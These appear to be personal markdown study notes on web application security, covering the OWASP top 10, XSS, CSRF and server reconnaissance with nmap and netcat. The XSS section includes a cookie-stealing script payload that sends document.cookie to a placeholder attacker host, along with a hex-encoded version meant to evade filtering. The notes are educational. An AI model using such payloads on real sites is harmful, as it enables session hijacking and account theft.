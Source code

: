 ## Web Application Security
- OWASP() good source of info on web app security
    - 10 vulnerability list
        Injection
        Broken Authentication
        Sensitive data exposure
        XML External Entities (XXE)
        Broken Access control
        Security misconfigurations
        Cross Site Scripting (XSS)
        Insecure Deserialization
        Using Components with known vulnerabilities
        Insufficient logging and monitoring
- vulnerability
    - a hole or weakness in application, which can be a design flaw or an implementation bug that allows attacker to cause harm

- threat agent
    - individual or a group that can manifest a threat. 
    - a specific threat, r specific type of virus, worm or other malware
- how XSS work?
     attacker can create a malicious link to inject unwanted executable JavaScript into a Web site. The most usual case of this vulnerabilities occurs when GET variables are printed or echoed without filtering or checking their content.

    clicking the link victim's cookie can be sent to server or it can modify affected site, injecting form to steal username & password and other phishing technique

    example link:

        http://VulnerableHost/a.php?variable=<script>document.location='http://AttackersHost/cgi-bin/cookie.cgi%3Fdata='+document.cookie</script>

    it can be done with hex: 

        http://VulnerableHost/a.php?variable=%22%3E%3C%73%63%72%69%70%74%3E%64%6F%63%75%6D%65%6E%74%2E%6C%6F%63%61%74%69%6F%6E%3D%27%68%74%74%70%3A%2F%2F%41%74%74%61%63%6B%65%72%73%48%6F%73%74%2F%63%67%69%2D%62%69%6E%2F%63%6F%6F%6B%69%65%2E%63%67%69%3F%20%27%2B%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%3C%2F%73%63%72%69%70%74%3E


- how CSRF work?
    Cross-Site Request Forgery (CSRF) is an attack that forces an end user to execute unwanted actions on a web application in which they're currently authenticated. CSRF attacks specifically target state-changing requests, not theft of data, since the attacker has no way to see the response to the forged request. With a little help of social engineering (such as sending a link via email or chat), an attacker may trick the users of a web application into executing actions of the attacker's choosing. If the victim is a normal user, a successful CSRF attack can force the user to perform state changing requests like transferring funds, changing their email address, and so forth. If the victim is an administrative account, CSRF can compromise the entire web application.

    https://stackoverflow.com/questions/5207160/what-is-a-csrf-token-what-is-its-importance-and-how-does-it-work

    https://medium.com/@charithra/introduction-to-csrf-a329badfca49
    
    https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)


Get details info of a server with tools?
    - nmap
        ```
            nmap -A -T4 ipAddress
            nmap -sV -O ipAddress
        ```
    - netat
        - reads and writes data across network communication using tcp or udp protocol. 
        - can be used to: debug & monitor network communications, scan for open ports, transfer data, as a proxy & more

        ```
        nc [option] host port
        nc -u host port  # for udp
        nc -z -v 10.10.8.8 20-80 #port scan
        nc -z -v 10.10.8.8 20-80 2>&1 | grep succeeded #open port scan
        ```
    - firebug
        In addition to debugging web pages, Firebug was used for web security testing[9] and web page performance analysis.[10]

        